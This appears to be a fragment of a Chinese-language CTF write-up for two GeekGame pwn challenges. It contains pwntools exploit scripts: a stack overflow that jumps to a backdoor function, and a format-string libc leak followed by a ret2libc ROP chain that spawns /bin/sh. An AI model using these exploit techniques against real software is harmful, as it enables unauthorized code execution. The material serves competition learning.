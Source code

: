 拖到 Ghidra 里面发现 backdoor 函数，因此只需要控制程序跳到此函数即可。

```python
#!/usr/bin/env python
from pwn import *

r = remote('prob10.geekgame.pku.edu.cn', 10010)
r.send(b'{token_here}\n')
# r = process(['./challenge1'])
# input()

print(r.recv())
r.send(b'0\n')

print(r.recv())

r.send(b'A' * 120 + p64(0x4011be) + b'\n')
print(r.interactive())
```

### Flag 2

首先输入一串 `%p`，结合 gdb 的 `info proc mappings`，可以看到爆出来了 libc 代码段上的某个地址，从而泄露 libc 基址。

第二次输入时，可以实现栈溢出覆盖 retaddr，构造 ret2libc 即可。

```python
#!/usr/bin/env python
from pwn import *

r = remote('prob11.geekgame.pku.edu.cn', 10011)
r.recv()
r.send(b'{token_here}\n')
# r = process(['./challenge2'])
# input()

print(r.recv())
r.send(b'%p-' * 10 + b'\n')
buf = r.recv().split(b'-')
print(buf[2].decode()[2:])
libc_magic = int(buf[2].decode()[2:], 16) - 0xeca37 - 0x28000
print('Libc load address = 0x%x' % libc_magic)

libc = ELF('./libc.so.6')
rop = ROP(libc)
print(rop.rax)
print(rop.rdi)
print(rop.rsi)
print(rop.rdx)

r.send(
  (b'B' * (120) +
  p64(libc_magic + rop.rax.address) +
  p64(59) + # syscallnum = EXECVE
  p64(libc_magic + rop.rdi.address) +
  p64(libc_magic + next(libc.search(b'/bin/sh'))) + # param1 -> /bin/sh
  p64(libc_magic + rop.rsi.address) +
  p64(0) + # param2 = 0
  p64(libc_magic + rop.rdx.address) +
  p64(0) + # param3 = 0
  p64(0) +
  p64(libc_magic + rop.syscall.address)
  + b'\n'))
print(r.recv())

r.send(b'AAA\n')
```